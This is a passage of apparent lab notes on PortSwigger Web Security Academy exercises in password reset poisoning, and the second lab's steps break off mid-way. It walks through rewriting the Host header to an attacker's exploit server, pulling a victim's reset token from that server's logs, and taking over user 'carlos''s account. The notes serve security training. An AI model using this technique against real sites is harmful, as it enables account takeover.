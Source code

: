 ```bash
Change

Host: ac6d1f221ed1b066c0dd9ae2005500fd.web-security-academy.net

To

Host: anything123

Verify it works with a "200" response code

HTTP/1.1 200 OK

Once verified this is a possible attack vector go to attack server and grab the attack server URL and place it in the host header and change the user to 'carlos' i.e.

Host: exploit-ac581fae1e0eb01ec05c9afe017e0043.web-security-academy.net/

Host: exploit-ac581fae1e0eb01ec05c9afe017e0043.web-security-academy.net/

With a response of 

HTTP/1.1 200 OK

Now go to the Access logs to the attack server and you should find the 'temp-forgot-password-token'. Place this at the end of the previous forgot password request you had received for the user 'wiener'

https://ac6d1f221ed1b066c0dd9ae2005500fd.web-security-academy.net/forgot-password?temp-forgot-password-token=FbMG08FNK8PYEqMF0ntFFX7xRhm4rPDz

Reset the user 'carlos' password

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220510001807.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220510191917.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220510192100.png)

### Password reset poisoning via dangling markup
```bash

# This lab is vulnerable to password reset poisoning via [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup). To solve the lab, log in to Carlos's account.

# You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

Use forgot password functionality for username wiener
Check email for username wiener
Reset password
Check the reset password "view raw" in the email client
There is no sanitation occuring
Reset password settings again to reset the csrf token
Visit the new

POST /forgot-password HTTP/1.1

Send to repeater
Change Host: 

```